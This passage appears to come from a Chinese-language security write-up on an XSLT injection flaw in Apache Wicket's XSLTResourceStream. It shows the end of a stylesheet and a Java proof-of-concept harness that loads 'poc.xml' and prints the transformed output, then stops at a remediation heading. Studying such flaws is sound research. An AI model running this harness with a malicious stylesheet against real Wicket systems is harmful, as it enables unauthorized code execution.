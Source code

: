 ```
   </xsl:template>
</xsl:stylesheet>
```

因为本身XSLTResourceStream没有打印字符串的能力，所以还需要再代码中打印一下

```
package com.DawnT0wn.Wicket;

import org.apache.wicket.util.io.IOUtils;
import org.apache.wicket.util.resource.FileResourceStream;
import org.apache.wicket.util.resource.IResourceStream;
import org.apache.wicket.util.resource.ResourceStreamNotFoundException;
import org.apache.wicket.util.resource.XSLTResourceStream;

import java.io.File;
import java.io.IOException;

public class XSLTTest {
    public static void main(String[] args) throws ResourceStreamNotFoundException, IOException {
        IResourceStream xstlStream = new FileResourceStream(new File("poc.xml"));
        IResourceStream xmlStream = new FileResourceStream(new File("poc.xml"));
        XSLTResourceStream stream = new XSLTResourceStream(xstlStream, xmlStream);
        System.out.println(IOUtils.toString(stream.getInputStream()));
    }
}

```

![QQ_1730884264345](images/12.png)

## 漏洞修复
